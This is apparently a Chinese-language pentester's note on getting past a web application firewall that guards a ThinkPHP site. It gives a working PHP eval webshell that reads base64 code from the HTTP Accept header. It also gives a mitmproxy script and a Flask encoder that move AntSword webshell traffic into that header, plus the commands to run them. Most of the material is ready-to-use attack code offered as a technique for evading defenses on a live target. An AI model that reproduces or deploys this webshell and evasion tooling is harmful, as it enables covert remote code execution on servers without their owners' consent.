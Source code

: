 ```yaml
---
created: 2022-09-01T00:06:38+08:00
updated: 2022-09-02T08:42:15+08:00
---
```

### 流量waf绕过

碰到个thinkphp很硬的站点，php7的环境，拦截的很死，拦截`<?php`，可以通过`<? ?>`短标签绕过，拦截一些关键词`eval`等函数，可以通过php伪协议写入进行绕过

这个waf还有个比较厉害的点，流量拦截，base64、rsa、aes等流量都会识别到直接reset

base64流量如下：

![800](photo/Pasted%20image%2020220504190246.png)

直接reset，没有状态码，包括其他rsa、aes也是直接reset

rsa流量如下：

![800](photo/Pasted%20image%2020220504190259.png)

直接reset，也没有状态码


后续尝试更换payload中的关键字，发现没办法绕过，这个waf还是比较智能的

中间想到了使用伪协议写大马进服务器，发现无法写入，可能请求包数据太大，想了想其他的方法

继续尝试绕过waf，这里把`payload`更换位置，猜测waf只会识别数据包的请求体，而不会去看其他的请求头，把`payload`放到请求头里，发现服务器可以得到请求，如下：

![800](https://files.mdnice.com/user/23628/09dec26a-6bee-46d2-90b7-2376b383d2bb.png)
那么就可以把之前的马：
```php
<?
@eval(base64_decode(($_POST['x'])));
?>
```
更改为：
```php
<?
@eval(base64_decode(($_SERVER['HTTP_ACCEPT'];))); // 获取Accept的参数
?>
```
然后编写mitm脚本如下：
```python
# -*- coding:utf-8 -*-
# author:f0ngf0ng
# @Date: 2022/4/9 下午9:30
# 将post的参数转移到Accept
# 配合webshell
'''
<?  @eval(base64_decode(($_SERVER['HTTP_ACCEPT']))); ?>
'''
# 配合蚁剑的myencoder mydecoder 密码设置为x

from mitmproxy import http, ctx
from urllib.parse import unquote

class Mitm:
    def request(self, flow):
        if flow.request.host != "x.x.x.x" :
            # ctx.log.info(flow.request.host)
            return

        ctx.log.info(f"payload为 {flow.request.text}")
        payload = flow.request.text.split("x=")[1].split("&")[0] # payload参数
        flow.request.headers.add("Accept",unquote(payload) )
        flow.request.set_text(flow.request.text.replace("x=" + payload , ""))

        ctx.log.info(f"发送的请求包 = {flow.request.text}")
addons = [
    Mitm()
]
```
运行命令如下：

`mitmweb -s mitm.py --listen-port 8082`

蚁剑进行代理到本地

`127.0.0.1:8082`

点击测试连接，成功

![800](photo/Pasted%20image%2020220504190342.png)


![800](photo/Pasted%20image%2020220504190355.png)
`mitmproxy`运行界面如下

![800](photo/Pasted%20image%2020220504190409.png)

命令执行界面如下：
![800](photo/Pasted%20image%2020220504190419.png)
也可以编写`autoDecoder`的加解密脚本,如下:
```python
# -*- coding:utf-8 -*-
# author:f0ngf0ng
from flask import Flask,Response,request
from pyDes import *
import base64
app = Flask(__name__)

@app.route('/encode',methods=["POST"])
def encrypt():
    body = request.form.get('dataBody')  # 获取  post 参数 必需
    headers = request.form.get('dataHeaders')  # 获取  post 参数  可选
    body_accept = body.split("x=")[1].split("&")[0] # 获取payload
    body = body.replace("x=" + body_accept,"")

    if headers != None: # 开启了请求头加密
        print(headers + "\r\n\r\n\r\n\r\n" + body)
        headers = headers + "Accept:" + body_accept + "\r\n"
        return headers + "\r\n\r\n\r\n\r\n" + body # 返回值为固定格式，不可更改

    return  body

@app.route('/decode',methods=["POST"]) # 不解密
def decrypt():
    param = request.form.get('dataBody')  # 获取  post 参数
    return param

if __name__ == '__main__':
    app.debug = True # 设置调试模式，生产模式的时候要关掉debug
    app.run(host="0.0.0.0",port="8888")
```